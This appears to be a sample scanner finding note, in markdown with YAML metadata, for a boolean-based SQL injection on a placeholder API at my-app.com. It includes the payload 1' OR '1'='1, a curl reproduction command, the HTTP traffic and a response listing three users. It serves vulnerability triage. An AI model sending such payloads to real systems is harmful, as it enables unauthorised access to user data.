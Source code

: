 ```yaml
---
occurrenceId: occ-a1b2c3d4
findingId: fin-d1a7e8b9
definitionId: def-40018
pluginId: "40018"
name: "GET /api/v1/users?id=1' OR '1'='1"
url: "https://my-app.com/api/v1/users"
method: "GET"
param: "id"
attack: "1' OR '1'='1"
evidence: "boolean-based payload altered query logic (returned full user list)"
risk: "High"
riskcode: "3"
confidence: "Medium"
sourceid: ""
scan:
  label: "Run 2025-08-19"
domain:
  label: "my-app"
analyst:
  status: "open"
---
```


# SQL Injection occurrence: boolean-based

> [!summary]
> - Finding: [[sample-sqli-finding|SQL Injection - /api/v1/users]]
> - Param: `id`
> - Attack: `1' OR '1'='1`
> - Evidence: boolean-based SQLi (query returned more rows)
> - Status: open

## Reproduce
```bash
curl -sS "https://my-app.com/api/v1/users?id=1%27%20OR%20%271%27=%271" -H "Accept: application/json"
```

## Traffic

### Request
```
GET /api/v1/users?id=1%27%20OR%20%271%27=%271 HTTP/1.1
Host: my-app.com
User-Agent: ZAP
Accept: application/json
```

### Response
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: no-cache

[
  {"id":1,"name":"admin"},
  {"id":2,"name":"alice"},
  {"id":3,"name":"bob"}
]
```

## Investigate

> [!NOTE] Analyst Notes

> Reviewing the request the injection appears in the users.id value. The return traffic shows three users returned by query which indicates succesful SQLi. 




